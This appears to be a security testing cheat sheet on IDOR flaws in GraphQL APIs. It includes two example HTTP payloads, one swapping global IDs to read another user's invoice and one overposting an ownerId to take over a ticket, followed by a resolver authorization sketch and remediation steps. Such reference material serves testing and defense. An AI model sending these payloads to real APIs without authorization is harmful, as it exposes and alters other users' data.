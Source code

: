 # IDOR – GraphQL / Alt-Protocol

## Summary
Global IDs (`nodeId`), aliases, or nested selections return/modify non-owned objects when authorization is absent in resolvers.

## Discovery
- Swap global IDs; inspect nested edges/fields for leakage
- Try mutations that accept `id`/`ownerId`/`accountId` fields

## Examples
**Query (global id swap)**
```http
POST /graphql HTTP/1.1
Authorization: Bearer {{A_token}}
Content-Type: application/json

{"query":"query($id:ID!){ node(id:$id){ ... on Invoice { id number owner { id } } } }","variables": {"id": "R2xvYmFsSWQ6MTAzMA=="}}
```

**Mutation (overposting owner)**
```http
POST /graphql HTTP/1.1
Authorization: Bearer {{A_token}}
Content-Type: application/json

{"query":"mutation($id:ID!,$owner:ID!){ updateTicket(id:$id,input:{ ownerId:$owner }){ id owner { id } }}","variables": {"id": "RGlkOnRpY2tldDoxMjM=", "owner": "VXNlcjo3Nw=="}}
```

## Resolver Enforcement (sketch)
```js
function resolveInvoice(root, args, ctx){
  const invoice = loadByGlobalId(args.id)
  assert(invoice.tenantId === ctx.user.tenantId && invoice.ownerId === ctx.user.id)
  return invoice
}
```

## Remediation
- Enforce authorization in each resolver/mutation
- Derive owner/tenant from context; ignore client-supplied owner/tenant fields
- Limit field selection for unprivileged roles
